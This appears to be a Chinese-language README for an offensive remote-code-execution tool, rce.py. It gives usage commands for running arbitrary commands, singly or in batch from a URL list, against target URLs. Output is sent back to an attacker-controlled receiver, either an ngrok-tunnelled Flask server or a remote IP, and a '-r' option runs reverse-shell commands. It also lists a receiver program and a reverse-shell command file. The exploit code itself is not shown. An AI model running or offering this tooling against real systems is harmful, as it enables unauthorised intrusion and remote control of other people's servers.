 usage
```text
单个shell执行 (本地flask开启并指定ngrok穿透的域名)
python rce.py -s -t <ngrok_domain> -u <目标url>

单个shell执行 (指定远程接收端)
python rce.py -t <远程接收端的IP> -u <目标url>

反弹shell命令执行
python rce.py -u <目标url> -r

批量shell执行 (本地flask开启并指定ngrok穿透的域名)
python rce.py  -s -t <ngrok_domain> -f url.txt -c <要执行的命令>

批量shell执行 (指定远程接收端)
python rce.py -t <远程接收端的IP> -f url.txt -c <要执行的命令>
Usage: rce.py [options]

Options:
  -h, --help  show this help message and exit
  -r          反弹shell语句执行
  -s          flask+nggok代理
  -u URL      目标url
  -f FILE     目标txt
  -t HOST     命令结果返回url/domain
  -c CMD      批量时要执行的命令
```

ngrok下载:https://ngrok.com/download  

FileList:  
* http_server.py - 远端接收程序
* reverseshell.txt - 反弹shell要执行的命令

Example:
![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

缺点:自己起的flask需要手动ctrl+c结束